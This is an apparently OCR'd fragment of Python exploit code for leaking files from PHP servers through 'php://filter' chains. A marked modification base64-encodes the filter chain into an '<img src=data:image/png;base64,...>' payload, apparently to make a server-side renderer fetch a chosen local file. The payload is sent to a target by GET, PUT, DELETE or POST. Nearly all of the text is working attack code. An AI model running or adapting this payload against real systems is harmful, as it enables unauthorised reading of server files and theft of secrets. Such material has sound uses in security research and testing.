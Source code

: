 ```python
 
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) - 1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)
 
    """
    Returns the response of a request defined with all options
    """
 
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)
 
        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)
 
        ####Add ↓
        import base64
 
        insert_base64 = base64.b64encode(filter_chain.encode('utf-8')).decode('utf-8')
        payload = f"<img src='data:image/png;base64,{insert_base64}'/>"
        merged_data[self.parameter] = payload  # Fixed indentation
 
        #####Add ↑
 
        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input:
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError:
            print("[-] Could not instantiate a connection")
```